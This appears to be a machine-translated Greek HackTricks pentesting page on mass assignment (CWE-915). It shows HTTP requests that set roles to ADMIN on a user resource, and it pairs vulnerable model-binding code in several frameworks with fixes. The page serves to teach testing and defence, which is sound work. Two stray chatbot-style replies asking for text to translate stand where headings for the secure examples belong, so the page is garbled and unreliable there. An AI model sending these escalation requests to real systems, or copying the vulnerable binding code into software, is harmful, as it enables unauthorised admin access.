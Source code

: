 # Mass Assignment (CWE-915) – Privilege Escalation via Unsafe Model Binding

{{#include ../banners/hacktricks-training.md}}

Mass assignment (a.k.a. insecure object binding) συμβαίνει όταν ένα API/controller παίρνει user-supplied JSON και το δεσμεύει απευθείας σε ένα server-side μοντέλο/οντότητα χωρίς ρητό allow-list πεδίων. Αν ιδιότητες με προνόμια όπως roles, isAdmin, status ή πεδία ownership είναι bindable, οποιοσδήποτε authenticated χρήστης μπορεί να escalate privileges ή να τροποποιήσει προστατευμένη κατάσταση.

Αυτό είναι ένα Broken Access Control issue (OWASP A01:2021) που συχνά επιτρέπει vertical privilege escalation με το να ορίσετε roles=ADMIN ή παρόμοια. Συνηθίζεται να επηρεάζει frameworks που υποστηρίζουν automatic binding των request bodies σε data models (Rails, Laravel/Eloquent, Django ORM, Spring/Jackson, Express/Mongoose, Sequelize, Go structs, κ.λπ.).

## 1) Finding Mass Assignment

Ψάξτε για self-service endpoints που ενημερώνουν το προφίλ σας ή παρόμοιους πόρους:
- PUT/PATCH /api/users/{id}
- PATCH /me, PUT /profile
- PUT /api/orders/{id}

Κριτήρια που υποδηλώνουν mass assignment:
- Η απάντηση αντικατοπτρίζει server-managed fields (π.χ., roles, status, isAdmin, permissions) ακόμη και όταν δεν τα στείλατε.
- Client bundles περιέχουν role names/IDs ή άλλα privileged attribute names που χρησιμοποιούνται σε όλη την εφαρμογή (admin, staff, moderator, internal flags), υπονοώντας bindable schema.
- Backend serializers δέχονται unknown fields χωρίς να τα απορρίπτουν.

Quick test flow:
1) Κάντε ένα κανονικό update μόνο με safe fields και παρατηρήστε την πλήρη JSON response structure (this leaks the schema).
2) Επαναλάβετε το update συμπεριλαμβάνοντας ένα crafted privileged field στο body. Εάν η απάντηση διατηρεί την αλλαγή, πιθανότατα έχετε mass assignment.

Example baseline update revealing schema:
```http
PUT /api/users/12934 HTTP/1.1
Host: target.example
Content-Type: application/json

{
"id": 12934,
"email": "user@example.com",
"firstName": "Sam",
"lastName": "Curry"
}
```
Η απάντηση υποδεικνύει προνομιακά πεδία:
```http
HTTP/1.1 200 OK
Content-Type: application/json

{
"id": 12934,
"email": "user@example.com",
"firstName": "Sam",
"lastName": "Curry",
"roles": null,
"status": "ACTIVATED",
"filters": []
}
```
## 2) Exploitation – Role Escalation via Mass Assignment

Μόλις γνωρίζετε το bindable shape, συμπεριλάβετε το privileged property στο ίδιο request.

Παράδειγμα: set roles to ADMIN on your own user resource:
```http
PUT /api/users/12934 HTTP/1.1
Host: target.example
Content-Type: application/json

{
"id": 12934,
"email": "user@example.com",
"firstName": "Sam",
"lastName": "Curry",
"roles": [
{ "id": 1, "description": "ADMIN role", "name": "ADMIN" }
]
}
```
Εάν μετά την απάντηση η αλλαγή role παραμένει, επαληθευτείτε ξανά ή ανανεώστε τα tokens/claims ώστε η εφαρμογή να εκδώσει μια admin-context session και να εμφανίσει privileged UI/endpoints.

Σημειώσεις
- Οι role identifiers και shapes συνήθως παρατίθενται από το client JS bundle ή τα API docs. Αναζητήστε συμβολοσειρές όπως "roles", "ADMIN", "STAFF" ή αριθμητικά role IDs.
- Εάν τα tokens περιέχουν claims (π.χ. JWT roles), συνήθως απαιτείται logout/login ή token refresh για να εφαρμοστούν τα νέα δικαιώματα.


## 3) Client Bundle Recon για Schema και Role IDs

- Εξετάστε minified JS bundles για role strings και model names; τα source maps μπορεί να αποκαλύψουν DTO shapes.
- Ψάξτε για arrays/maps με roles, permissions ή feature flags. Δημιουργήστε payloads που ταιριάζουν στα ακριβή property names και nesting.
- Τυπικοί δείκτες: role name constants, dropdown option lists, validation schemas.

Χρήσιμα greps για ένα downloaded bundle:
```bash
strings app.*.js | grep -iE "role|admin|isAdmin|permission|status" | sort -u
```
## 4) Παγίδες frameworks και Ασφαλή πρότυπα

Η ευπάθεια προκύπτει όταν τα frameworks δεσμεύουν το req.body απευθείας σε επίμονες οντότητες. Παρακάτω φαίνονται κοινά λάθη και ελάχιστα, ασφαλή πρότυπα.

**Node.js (Express + Mongoose)**

**Ευάλωτο:**
```js
// Any field in req.body (including roles/isAdmin) is persisted
app.put('/api/users/:id', async (req, res) => {
const user = await User.findByIdAndUpdate(req.params.id, req.body, { new: true });
res.json(user);
});
```
Δεν παρείχες κανένα κείμενο για μετάφραση. Στείλε το περιεχόμενο του αρχείου src/pentesting-web/mass-assignment-cwe-915.md (ή το κείμενο που θέλεις να διορθώσω/μεταφράσω) και θα το μεταφράσω στα Ελληνικά διατηρώντας ακέραια τη Markdown/HTML σύνταξη και τα tags/paths που ανέφερες.
```js
// Strict allow-list and explicit authZ for role-changing
app.put('/api/users/:id', async (req, res) => {
const allowed = (({ firstName, lastName, nickName }) => ({ firstName, lastName, nickName }))(req.body);
const user = await User.findOneAndUpdate({ _id: req.params.id, owner: req.user.id }, allowed, { new: true });
res.json(user);
});
// Implement a separate admin-only endpoint for role updates with server-side RBAC checks.
```
**Ruby on Rails**

Ευάλωτο (χωρίς strong parameters):
```rb
def update
@user.update(params[:user]) # roles/is_admin can be set by client
end
```
Διόρθωση (strong params + χωρίς προνομιακά πεδία):
```rb
def user_params
params.require(:user).permit(:first_name, :last_name, :nick_name)
end
```
**Laravel (Eloquent)**

Ευάλωτο:
```php
protected $guarded = []; // Everything mass-assignable (bad)
```
Please paste the content of src/pentesting-web/mass-assignment-cwe-915.md that you want translated to Greek.
```php
protected $fillable = ['first_name','last_name','nick_name']; // No roles/is_admin
```
**Spring Boot (Jackson)**

Ευπαθές μοτίβο:
```java
// Directly binding to entity and persisting it
public User update(@PathVariable Long id, @RequestBody User u) { return repo.save(u); }
```
Διόρθωση: Χαρτογραφήστε σε DTO που περιέχει μόνο τα επιτρεπόμενα πεδία και εφαρμόστε έλεγχο εξουσιοδότησης:
```java
record UserUpdateDTO(String firstName, String lastName, String nickName) {}
```
Έπειτα, αντιγράψτε τα επιτρεπόμενα πεδία από το DTO στην οντότητα στο server-side, και χειριστείτε τις αλλαγές ρόλων μόνο σε admin-only handlers μετά από τους ελέγχους RBAC. Χρησιμοποιήστε @JsonIgnore σε προνομιακά πεδία αν χρειάζεται και απορρίψτε άγνωστες ιδιότητες.

Go (encoding/json)
- Βεβαιωθείτε ότι τα προνομιακά πεδία χρησιμοποιούν json:"-" και επικυρώστε με ένα DTO struct που περιλαμβάνει μόνο επιτρεπόμενα πεδία.
- Σκεφτείτε να χρησιμοποιήσετε decoder.DisallowUnknownFields() και επαλήθευση μετά το bind των αμετάβλητων συνθηκών (οι ρόλοι δεν μπορούν να αλλάξουν σε self-service routes).

## References

- [FIA Driver Categorisation: Admin Takeover via Mass Assignment of roles (Full PoC)](https://ian.sh/fia)
- [OWASP Top 10 – Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
- [CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes](https://cwe.mitre.org/data/definitions/915.html)

{{#include ../banners/hacktricks-training.md}}
